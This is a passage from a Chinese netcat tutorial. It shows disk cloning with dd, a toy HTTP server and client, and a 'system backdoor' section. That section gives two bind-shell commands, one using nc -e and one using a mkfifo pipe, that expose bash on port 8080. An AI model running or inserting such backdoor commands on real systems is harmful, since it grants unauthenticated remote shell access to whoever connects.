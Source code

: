 ### 克隆设备

使用 netcat 可以用来对整个磁盘设备进行复制：

```
# 服务端
dd if=/dev/sda | nc -l 1567

# 客户端
nc -n 182.168.1.8 | dd of=/dev/sda
```

`dd` 命令是一个从磁盘读取原始数据的工具，通过 netcat 服务器重定向它的输出流到其他机器并且写入到磁盘中，它会随着分区表拷贝所有的信息。如果多了分区，可以根据情况更改 sda 为 sda1, sda2 等等。

### HTTP 服务器

用 netcat 可以实现一个简单的 HTTP 服务器，用以测试一些功能。首先，穿件一个简单地的 index.html 文件：

```html
<html>
<head>
<title>Test Page</title>
</head>
<body>
<p>Serving this file using Netcat Basic HTTP server!</p>
</body>
</html>
```

然后运行服务端：

```
while : ; do ( echo -ne "HTTP/1.1 200 OK\r\n" ; cat index.html; ) | nc -l -p 8080 ; done
```

### HTTP 客户端

用 netcat 也可以实现一个简单的 HTTP 服务器，用于请求 HTTP 数据。

```
printf "GET / HTTP/1.0\r\n\r\n" | nc konghy.cn 80
```

### 系统后门

GNU 版本的 netcat 有一个 `-e` 参数，可以在连接建立的时候执行一个程序，并把它的标准输入输出重定向到网络连接上来，于是我们可以在主机上用 `-e` 参数执行 bash 命令：

```
/bin/nc.traditional -l -p 8080 -e /bin/bash -i
```

对于 OpenBSD 版本的 netcat，`-e` 命令被删除了，但可以用管道来完成：

```
mkfifo /tmp/f
cat /tmp/f | /bin/bash 2>&1 | /bin/nc.openbsd -l -p 8080 > /tmp/f
```
